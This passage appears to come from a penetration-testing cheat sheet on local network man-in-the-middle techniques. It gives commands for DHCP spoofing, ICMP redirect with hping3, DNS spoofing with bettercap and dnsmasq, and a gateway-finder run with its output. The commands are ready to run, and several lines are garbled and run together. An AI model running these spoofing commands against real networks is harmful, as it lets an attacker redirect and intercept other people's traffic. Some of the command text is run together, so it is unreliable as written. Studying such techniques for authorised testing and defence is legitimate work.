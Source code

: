 The attacker configures all the network parameters (GW, IP, DNS) of the new member of the network sending fake DHCP responses.

```bash
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```

### ARP Spoofing

Check the [previous section](./#arp-spoofing).

### ICMPRedirect

ICMP Redirect consist on sending an ICMP packet type 1 code 5 that indicates that the attacker is the best way to reach an IP. Then, when the victim wants to contact the IP, it will send the packet through the attacker.

```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

### DNS Spoofing

The attacker will resolve some (or all) the domains that the victim ask for.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```

**Configure own DNS with dnsmasq**

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```

### Local Gateways

Multiple routes to systems and networks often exist. Upon building a list of MAC addresses within the local network, use _gateway-finder.py_ to identify hosts that support IPv4 forwarding.

```
root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/) 
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.

root@kali:~/gateway-finder# ./gateway-finder.py -f hosts.txt -i 209.85.227.99
gateway-finder v1.0 http://pentestmonkey.net/tools/gateway-finder
[+] Using interface eth0 (-I to change)
[+] Found 3 MAC addresses in hosts.txt
[+] We can ping 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
[+] We can reach TCP port 80 on 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
```
